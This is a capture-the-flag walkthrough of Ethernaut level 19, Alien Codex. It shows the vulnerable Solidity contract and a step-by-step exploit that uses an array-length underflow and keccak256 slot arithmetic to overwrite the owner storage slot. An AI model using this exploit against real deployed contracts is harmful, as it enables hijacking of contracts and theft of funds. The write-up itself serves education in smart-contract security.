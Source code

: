 # Level 19: Alien Codex

This is the level 19 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites

- Contract [storage mechanism](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) for dynamically sized arrays
- Integer [overflow/underflow](https://docs.soliditylang.org/en/v0.6.0/security-considerations.html#two-s-complement-underflows-overflows) in Solidity
- [Storage slot assignment in contract on inheritance](https://ethereum.stackexchange.com/questions/63403/in-solidity-how-does-the-slot-assignation-work-for-storage-variables-when-there)

## Hack

Given contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

`player` has to claim ownership of `AlienCodex`.

The target `AlienCodex` implements ownership pattern so it must have a `owner` state variable of `address` type, which can also be confirmed upon inspecting ABI (`contract.abi`). Moreover, the 20 byte `owner` is stored at slot 0 (as well as 1 byte bool `contact`).

Before we start, note that every contract on Ethereum has storage like an array of 2<sup>256</sup> (indexing from 0 to 2<sup>256</sup> - 1) slots of 32 byte each.

The vulnerability of `AlienCodex` originates from the `retract` method which sets a new array length without checking a potential underflow. Initially, `codex.length` is zero. Upon invoking `retract` method once, 1 is subtracted from zero, causing an underflow. Consequently, `codex.length` becomes 2<sup>256</sup> which is exactly equal to total storage capacity of the contract! That means any storage slot of the contract can now be written by changing the value at proper index of `codex`! This is possible because EVM doesn't validate an array's ABI-encoded length against its actual payload.

First call `make_contact` so that we can pass check - `contacted`, on other methods:
```javascript
await contract.make_contact()
```

Modify `codex` length to 2<sup>256</sup> by invoking `retract`:
```javascript
await contract.retract()
```

Now, we have to calculate the index, `i` of `codex` which corresponds to slot 0 (where `owner` is stored).

Since, `codex` is dynamically sized only it's length is stored at next slot - slot 1. And it's location/position in storage, according to allocation rules, is determined by as `keccak256(slot)`:
```
p = keccak256(slot)
or, p = keccak256(1)
```

Hence, storage layout would look something like:
```
Slot        Data
------------------------------
0             owner address, contact bool
1             codex.length
    .
    .
    .
p             codex[0]
p + 1         codex[1]
    .
    .
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)
```
Form above table it can be seen that slot 0 in storage corresponds to index, `i` = `2^256 - p` or `2^256 -  keccak256(1)` of `codex`!

So, writing to that index, `i` will change `owner` as well as `contact`.

You can go on write some Solidity to calculate `i` using `keccak256`, but it can also be done in console which I'm going to use.

Calculate position, `p` in storage of start of `codex` array
```javascript
// Position
p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))

// Output: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

Calculate the required index, `i`. Use `BigInt` for mathematical calculations between very large numbers.
```javascript
i = BigInt(2 ** 256) - BigInt(p)

// Output: 35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

Now since value to be put must be 32 byte, pad the `player` address on left with `0`s to make a total of 32 byte. Don't forget to slice off `0x` prefix from player address!
```javascript
content = '0x' + '0'.repeat(24) + player.slice(2)

// Output: '0x000000000000000000000000<20-byte-player-address>'
```

Finally call revise to alter the storage slot:
```javascript
await contract.revise(i, content)
```

And we hijacked `AlienCodex`! Verify by:
```javascript
await contract.owner() === player

// Output: true
```

Done!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

